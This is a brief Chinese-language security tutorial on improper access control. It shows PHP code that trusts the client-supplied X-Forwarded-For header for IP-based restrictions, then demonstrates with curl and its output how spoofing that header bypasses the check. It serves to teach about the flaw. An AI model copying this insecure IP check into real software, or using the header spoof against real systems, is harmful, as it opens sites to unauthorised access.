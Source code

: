 # 不正确的权限

例如某些网站根据IP进行限制,如:  

```
<?php
function getIP(){
  $arr = ['HTTP_X_FORWARDED_FOR','HTTP_CLIENT_IP','REMOTE_ADDR'];
  foreach ($arr as $key) {
    if(isset($_SERVER[$key])){
      $realip = $_SERVER[$key];
      break;
    }
  }
  return $realip;
}
$ip = getIP();
echo $ip;
```

此时可以通过伪造相关的信息来绕过:  

<pre>
$ ccurl localhost/demo.php -H "X-Forwarded-For:192.168.1.200" -v
*   Trying ::1...
* TCP_NODELAY set
* Connected to localhost (::1) port 80 (#0)
> GET /demo.php HTTP/1.1
> Host: localhost
> User-Agent: curl/7.61.1
> Accept: */*
> X-Forwarded-For:192.168.1.200
>
< HTTP/1.1 200 OK
< Date: Tue, 14 May 2019 06:39:49 GMT
< Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
< X-Powered-By: PHP/5.4.45
< Content-Length: 13
< Content-Type: text/html
<
192.168.1.200* Connection #0 to host localhost left intact
</pre>

而直接请求的响应为:

<pre>
$ curl localhost/demo.php
::1
</pre>

详情可以[参见](http://cwe.mitre.org/data/definitions/287.html)